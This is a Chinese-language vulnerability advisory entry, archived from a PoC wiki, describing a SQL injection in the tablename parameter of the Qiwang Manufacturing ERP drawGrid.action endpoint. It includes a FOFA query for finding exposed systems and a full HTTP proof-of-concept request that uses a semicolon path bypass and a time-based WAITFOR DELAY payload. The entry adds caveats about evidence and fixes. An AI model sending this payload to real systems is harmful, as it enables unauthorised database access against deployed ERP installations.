

# 企望制造ERP drawGrid tablename SQL 注入

## 条目说明

- 对象与具体问题：企望制造ERP；drawGrid tablename SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：Cookie示例；分号cookieLogin路由条件未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 需解释分号路径是否鉴权绕过而非抹掉该前提
- 单5秒延时图缺正常基线/重复测量
- 在野已知/广影响无出处，HTTP无围栏，长度固定错误

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

企望制造eERP系统由上海企望信息科技有限公司开发，企望制造深知纸箱行业特点和业务流程的多位IT专家打造，具有国际先进的管理方式，将现代化的管理方式融入erp软件中，让企业分分钟就拥有科学的管理经验。 erp的功能包括成本核算、报价定价、订单下达、生产下单、现场管理等多种功能。企望制造ERP drawGrid.action存在SQL注入漏洞

## 影响版本

企望制造ERP系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="企望-ERP系统"

POC/EXP：

```http
POST /mainFunctions/drawGrid.action;cookieLogin.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=7256C68B9C89F11BE2F841C3F1CAA415
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

tablename=1';WAITFOR DELAY '0:0:5'--
```

> 请求长度说明：原资料 Content-Length 为 29；保留原始标头；其数值未据实际请求体重新计算或验证。





## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
